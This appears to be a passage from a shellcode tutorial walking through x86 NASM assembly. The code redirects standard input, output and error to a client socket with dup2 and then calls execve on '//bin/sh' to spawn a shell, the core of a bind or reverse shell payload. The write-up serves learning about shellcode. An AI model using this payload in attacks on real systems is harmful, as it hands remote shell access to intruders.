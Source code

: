 ### Assembly

Here's the assembly code that starts from the `RepeatDuplicate` label:

```nasm
RepeatDuplicate:
    ; save ecx since it's modified later
    push ecx

    ; dup2() syscall
    mov eax, 63

    ; Client file descriptor
    mov ebx, edi

    ; Redirect this file descriptor (stdin/stdout/stderr) to the Client File descritptor
    mov ecx, DWORD [esp]
    dec ecx

    ; call dup2()
    int 0x80

    ; restore ecx and check if loop is over
    pop ecx
    loop RepeatDuplicate

SpawnShell:

    push ecx

    ; argv, 2nd argument of execve
    mov ecx, esp

    ; envp, 3rd argument of execve
    mov edx, esp
```

`ECX` and `EDX` are pointers to `NULL`, so **argv** and **envp** are empty

```nasm
    push 0x68732f6e
    push 0x69622f2f
    mov ebx, esp

    ; exceve syscall
    xor eax, eax
    mov al, 11
    int 0x80
```

Call `execve` on `//bin/sh`

As you can see, after it redirects input, output, and error, the `execve` syscall spawns an SH shell.
